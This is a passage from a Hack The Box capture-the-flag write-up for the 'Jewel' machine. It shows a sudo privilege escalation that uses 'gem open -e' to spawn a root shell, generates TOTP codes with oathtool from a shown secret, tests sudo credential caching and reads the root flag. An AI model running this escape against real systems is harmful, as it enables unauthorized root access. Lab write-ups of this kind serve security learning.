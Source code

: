 > This requires the name of an installed gem to be provided \(rdoc is usually installed\). `gem open -e "/bin/sh -c /bin/sh" rdoc`

### Getting a root shell

```text
bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
jewel.htb
```

I ran the command from GTFObins with `sudo` and it immediately gave me a root shell.  It seemed to me that if I had been able to read the sudoers file I could have bypassed all of that trouble with OTPs. I wasn't sure why one wasn't required to run the command, unless I was still authenticated. I logged back out to test this.

```text
bill@jewel:~$ less /etc/sudoers
/etc/sudoers: Permission denied
```

I had forgotten to check this file earlier, but I was somewhat relieved that all of the pain that it took to sync the date and time wasn't in vain.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ oathtool --totp -b 2UQI3R52WFCLE6JTLDCSJYMJH4
509498

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ oathtool --totp -b 2UQI3R52WFCLE6JTLDCSJYMJH4
695810
bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
[sudo] password for bill: 
Verification code: 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

I was correct. There was a window in which I was able to enter commands with `sudo` without re-authenticating.

### Root.txt

```text
# ls -la
total 12
drwxr-xr-x 3 root root 4096 Aug 26 09:34 .
drwxr-xr-x 3 root root 4096 Aug 26 09:34 ..
drwxr-xr-x 2 root root 4096 Aug 26 09:35 exe
# pwd
/usr/lib/ruby/gems/2.5.0/gems/rdoc-6.0.1
# cd ~
# ls
root.txt
# cat root.txt
ccd692c5e666d9ed85939664d3e70448
```
